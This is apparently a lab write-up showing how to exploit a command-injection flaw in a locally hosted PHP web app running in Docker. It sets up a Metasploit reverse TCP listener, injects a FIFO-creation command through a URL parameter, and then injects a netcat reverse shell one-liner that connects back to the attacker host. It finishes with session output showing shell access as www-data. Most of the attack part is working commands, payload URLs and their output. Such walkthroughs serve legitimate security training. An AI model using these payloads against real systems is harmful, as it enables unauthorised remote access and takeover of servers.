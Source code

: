 ## Setting up the listener - The proper way

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.17.0.1:1337
```

For me, my docker network set my host machine to 172.17.0.1 and assigned the container 172.17.0.2, use your own IP addresses appropriately.

## Launching the reverse shell

Now to start a netcat reverse shell on the victim machine you have to do a janky workaround as the docker container is OpenBSD based,
so instead of normal netcat it has a more "secure" version without the `-e` or `-c` flags that we would usually use to pipe `/bin/bash` straight into it.

First, create a temporary FIFO pipe (pipeline) in /tmp by running `mknod /tmp/backpipe p` through command injection.
Go to the following link in your browser:

http://localhost:8081/account/documents?page=test|mknod%20/tmp/backpipe%20p

You don't need to double URL encode your special characters, the browser might hide from you that it does it automatically once though.
Next, you can start the reverse shell by running the following command (with your own IP address and port substituted):

```shell
/bin/sh 0</tmp/backpipe | nc <YOUR-HOST/ATTACKER-IP> 1337 1>/tmp/backpipe
```

Which in command-injected URL form looks something like:

http://localhost:8081/account/documents?page=test|/bin/sh%200%3C/tmp/backpipe%20|%20nc%20172.17.0.1%201337%201%3E/tmp/backpipe


This tab may look like it's loading forever in your browser because it makes a blocking request on the PHP server that doesn't release the thread until the reverse shell closes.

If you switch back to your reverse shell in Metasploit, you should see a new connection.
Try running a command such as id:

```
[*] Started reverse TCP handler on 172.17.0.1:1337 
[*] Command shell session 1 opened (172.17.0.1:1337 -> 172.17.0.2:60084) at 2023-12-28 20:55:33 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
